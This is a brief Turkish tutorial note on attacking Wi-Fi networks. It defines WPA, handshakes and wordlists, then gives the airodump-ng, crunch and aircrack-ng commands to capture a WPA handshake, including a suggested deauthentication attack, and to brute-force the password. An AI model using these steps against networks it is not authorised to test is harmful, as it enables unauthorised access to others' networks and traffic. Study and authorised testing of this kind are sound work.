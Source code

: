 ### Ağlara Saldırmak

**_ WPA _**
WPA (Wi-Fi Protected Access), kablosuz ağlarda veri güvenliğini sağlamak için kullanılan bir şifreleme ve kimlik doğrulama protokolüdür.

-Handshake- kablosuz bir ağa (Wi-Fi) bağlanmak isteyen bir cihaz ile modem (router) arasında yapılan kimlik doğrulama işlemidir.

-Wordlist- siber güvenlikte ve özellikle brute-force saldırılarında kullanılan, içinde şifre olabilecek kelimelerin (parola tahminlerinin) bulunduğu metin dosyasıdır (.txt).

//terminalle password kırma

~iwconfig //monitor moda geç
~airodump-ng wlan0mon //ağ bilgileri al
~airodump-ng --channel 9 --bssid E4:C3:2A:B7:23:90 --write airodumptest wlan0mon //handshake üstte çıkar.Çıkmazsa ağdan atma saldırısı yap. Sonra çıkacaktır. handshake çımış halde write yazdırdığın dosya lazım

//Crunch kali de yüklüdür
~crunch 8 9 xy123 -o testwordlist // 8-9 haneli password, içerisinde xy123 geçen
~aircrack-ng handshake-file-01.cap -wtestwordlist // üstteki dosyaları ekle kırmaya başlar
